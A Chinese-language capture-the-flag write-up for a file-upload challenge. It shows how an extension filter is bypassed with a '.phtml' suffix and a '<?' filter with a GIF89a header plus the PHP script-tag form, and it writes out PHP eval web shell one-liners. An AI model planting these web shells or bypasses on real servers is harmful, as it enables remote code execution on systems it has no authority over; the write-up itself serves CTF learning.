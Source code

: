 # [极客大挑战 2019]Upload  
TAG:PHP 任意文件上传  
## 解题过程  
经典的文件上传题目，打开页面就看到了文件上传页面  
![20210104093104](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104093104.png)  
随意选择一张图片上传，并用burpsuite工具拦截数据包，将数据包发送到重发器进行任意文件上传测试  
![20210104093241](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104093241.png)  
将上传文件名后缀改为php，文件内容改成```<?php @eval($_POST['SHELL])?>```,尝试上传  
提示文件后缀不能为```php```,将后缀名修改为php5也会被拦截  
![20210104094025](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104094025.png)  
尝试使用```phtml```后缀,成功绕过后缀检测，但```<?```被检测出  
![20210104094233](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104094233.png)
尝试使用JS法绕过检测成功  
```GIF89a? <script language="php">eval($_REQUEST[shell])</script>```
![20210104095404](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104095404.png)  
使用蚁剑连接shell，注意上传的文件在```/upload/1.phtml```，在服务器根目录找到flag文件，打开终端使用cat命令查看文件内容获得flag  
![20210104095608](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104095608.png)  
## 题目分析  
此题为存在一定过滤的任意文件上传考察，在实战中也较为常见  
phtml也为apache可以解析的后缀，意为包含php代码的html文件，需要在配置文件中打开解析支持，可以作为过滤绕过的突破口  